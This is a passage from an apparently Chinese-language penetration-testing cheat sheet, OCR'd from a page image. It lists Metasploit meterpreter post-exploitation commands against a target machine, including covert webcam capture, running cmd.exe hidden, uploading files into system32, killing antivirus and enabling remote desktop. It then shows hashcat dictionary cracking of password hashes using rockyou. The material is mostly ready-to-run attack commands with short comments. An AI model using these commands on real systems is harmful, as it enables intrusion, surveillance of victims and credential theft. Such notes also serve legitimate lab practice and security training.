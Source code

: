 ~~~shell
# 发起攻击，成功会进入meterpreter交互式命令行中（命令行提示变为meterpreter）或者直接进入shell
exploit

# 查看攻击成功获得了通过meterpreter可以对靶机做啥
?
# 其中有对靶机执行核心命令、系统文件命令（新增、删除、修改、删除、下载、上传文件）、网络命令（代理设置、查看IP、开放端口、路由设置）、系统命令（清除后台数据、设置环境变量、杀死进程、关机、重启）、用户接口命令（监控鼠标键盘、摄像头打开关闭录制视频）、权限提升命令
# exit 关闭会话
# help 帮助信息
# sysinfo 系统平台信息
# shell 命令行shell(exit退出)
# getlwd 查看本地目录
# lcd 切换本地目录
# getwd 查看目录
# ls 查看文件目录列表
# cd 切换目录
# rm 删除文件
# search 搜索文件，案例：search -d c:-f*.doc 
# screenshot 屏幕截取
# webcam list 查看摄像头
# webcam snap 通过摄像头拍照
# webcam stream 通过摄像头开启视频
# execute -H -i -f cmd.exe 进入靶机的cmd.exe ，-H不可见，-i交互
# upload 上传文件，案例：upload /xxx.exe C:\\windows\\system32
# download 下载文件，案例：C:\\1.txt 1.txt 
# ps 查看进程
# getuid 查看当前用户权限
# run killav 关闭杀毒软件，实际上基本上所有的杀毒软件都无法关闭，即使是windows自带默认的杀毒软件都无法关闭
# run getgui-e 启用远程桌面

# 保存meterpreter为session并退出
background

# 查看的session列表
sessions

# 再次进入meterpreter
sessions [sessions id]

# 将某个session shell转为meterpreter，有可能失败
sessions -u [session id]

~~~


### 暴力破解
~~~shell
# 查看哈希值是通过什么算法加密的，一般哈希值是这样的 $id$salt$encrypted
man crypt
# 一般id号代表加密方式，常见的如下
#   1   | MD5
#   2a  | Blowfish (not in mainline glibc; added in some Linux distributions)
#   5   | SHA-256 (since glibc 2.7)
#   6   | SHA-512 (since glibc 2.7)

# 搜索查看加密方式类型的编号：Hash types 列表下对应加密算法的编号
man hashcat 

# hash暴力字典破解，只要猜测字典数量够多就能破解
hashcat -m [加密算法编号] --force [存放hash值的文件] [字典文件，每行都是可能的密码]
# --show 参数：只查看破解的密码信息
# kali系统中提供的字典 /usr/share/wordlists目录下有许多的字典，其中 rockyou.txt.gz 字典很大并且猜测的常见密码都在其中
# 例如  hashcat -m 1800 --force test.hash test.txt 其中的1800就是SHA-512 加密，即哈希值中开头$后面的id是6
~~~